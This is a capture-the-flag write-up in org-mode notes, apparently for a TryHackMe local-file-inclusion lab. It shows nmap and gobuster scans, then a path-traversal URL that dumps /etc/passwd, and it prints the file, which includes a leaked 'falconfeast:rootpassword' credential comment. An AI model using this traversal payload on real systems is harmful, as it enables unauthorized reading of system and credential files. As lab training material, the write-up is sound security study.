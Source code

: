 #+TITLE: LFI

* nmap

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lfi]
└──╼ # nmap -sC -sV -oA nmap/scan 10.10.57.130
Starting Nmap 7.91 ( https://nmap.org  ) at 2020-11-11 13:03 GMT
Nmap scan report for 10.10.57.130
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.96 seconds

#+end_src

- recon
  : 2 ports open
  : ssh on usual port
  : http on usual port
  : we find out that its a ubuntu machine

* gobuster

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lfi]
└──╼ # gobuster dir -u 10.10.57.130 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o go.scan
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.57.130
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/11 13:04:48 Starting gobuster
===============================================================
Progress: 17350 / 87665 (19.79%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/11 13:11:29 Finished
===============================================================

#+end_src

- gobuster shows nothing

* usernames

- after digging with zap we not only find a username but we get an exploit
  : falconfeast

* vulnerability

- local file inclusion
  : http://10.10.57.130/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
  : contents of /etc/passwd

  root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
